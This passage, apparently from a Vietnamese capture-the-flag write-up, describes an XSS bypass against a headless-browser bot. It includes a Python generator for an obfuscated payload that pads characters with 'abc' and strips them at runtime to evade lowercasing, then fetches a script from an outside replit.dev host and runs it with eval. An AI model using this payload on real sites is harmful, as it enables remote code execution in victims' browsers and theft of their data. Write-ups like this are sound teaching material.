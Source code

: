 ```js
        }

        logStream.write(`${new Date()} : Successfully opened ${url}\n`);
        console.log("Visited page");
        await sleep(7000);
        await browser.close();

        logStream.write(`${new Date()} : Finished execution\n`);
        logStream.end();
    } catch (e) {
        const logStream = fs.createWriteStream(logFilePath, { flags: 'a' });
        logStream.write(`${new Date()} : Exception occurred: ${e}\n`);
        logStream.end();
    }
}
```

Từ đó mình có ý tưởng sử dụng setTimeout nhưng payload của mình sẽ bị lowercase... Nên mình mới nghĩ ra cách sẽ host payload và gọi lệnh để eval và ta không đụng đến chữ in hoa nào cả hehe

![image](https://hackmd.io/_uploads/BJN__8Qi1x.png)

Chúng ta thay đổi payload lại như sau

```python
payload = ""
s = "fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit2.js').then(r=>r.text()).then(d=>eval(d))"
payload += '`'
for i in s:
    payload += (i+"abc")
payload += '`'
for i in s:
    payload += ".replace('abc','')"
print(payload.replace("+", "%2b"))
```

```html
```